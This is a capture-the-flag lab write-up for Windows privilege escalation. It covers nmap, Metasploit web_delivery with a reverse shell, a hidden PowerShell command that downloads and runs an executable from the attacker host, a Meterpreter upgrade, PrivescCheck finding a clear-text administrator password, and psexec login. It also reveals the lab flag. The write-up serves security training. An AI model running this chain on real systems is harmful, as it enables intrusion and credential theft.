# 🔬Windows Privilege Escalation

> 🔬 [Windows: PrivescCheck](https://attackdefense.com/challengedetailsnoauth?cid=2404)
>
> - Target IP: `10.2.29.53`
> - Usage of the  **[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) script**
>   - *already present on the Victim Machine*

## Enumeration & Exploitation

```bash
nmap -sV 10.2.29.53
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 10.2.29.53
setg RHOST 10.2.29.53

search web_delivery
use exploit/multi/script/web_delivery
info
# Description:
#   This module quickly fires up a web server that serves a payload. The 
#   provided command which will allow for a payload to download and 
#   execute.
set target PSH\ (Binary)
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST eth1
exploit
```

- Copy the PowerShell code and run it on the target machine using `cmd`

```bash
powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\P4MPrq7y.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.24.2:8080/y3MMtnMlRkQ81pA', $z); invoke-item $z
```

- Back to the Attacker machine, *Command shell session opened*

![](5-post-exploitassets/image-20230429104538548.png)

```bash
sessions 1
whoami
# Unprivileged user "student"
```

![Cmd Shell](5-post-exploitassets/image-20230429104626554.png)

```bash
# Upgrade to a Meterpreter session
background
search shell_to
use post/multi/manage/shell_to_meterpreter
set LHOST eth1
set SESSION 1
show advanced
set WIN_TRANSFER VBS
options
# check the LPORT is not in conflict with the Session 1
run
sessions 2
```

![](5-post-exploitassets/image-20230429105151345.png)

```bash
ps
migrate 5048
get privs
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
```

![](5-post-exploitassets/image-20230429105333928.png)

## Privilege Escalation

```bash
cd C:\\Users\\student\\Desktop\\PrivescCheck
shell
dir
```

- Run [**`PrivescCheck`**](https://github.com/itm4n/PrivescCheck)

```bash
# Basic mode
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Extended Mode + Export Txt Report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
```

```bash
exit
meterpreter > download PrivescCheck_ATTACKDEFENSE.txt

root@attackdefense:~# featherpad PrivescCheck_ATTACKDEFENSE.txt
```

![PrivescCheck Report](5-post-exploitassets/image-20230429110943953.png)

![WinLogon clear-text password](5-post-exploitassets/image-20230429111044202.png)

> 📌 `administrator`:`hello_123321`

### Administrator Login

- Use the `administrator` user to run a **privileged `cmd`**, trying `SMB` legitimate authentication

```bash
psexec.py administrator@10.2.29.53 cmd.exe
```

```bash
cd C:\Users\Administrator\Desktop
dir
type flag.txt
```

- This can be done with the `exploit/windows/smb/psexec` Metasploit module too.



<details>
<summary>Reveal Flag: 🚩</summary>



`2b070a650a92129c2462deae7707b0c5`

![](5-post-exploitassets/2023-04-29_11-33.png)

</details>

------

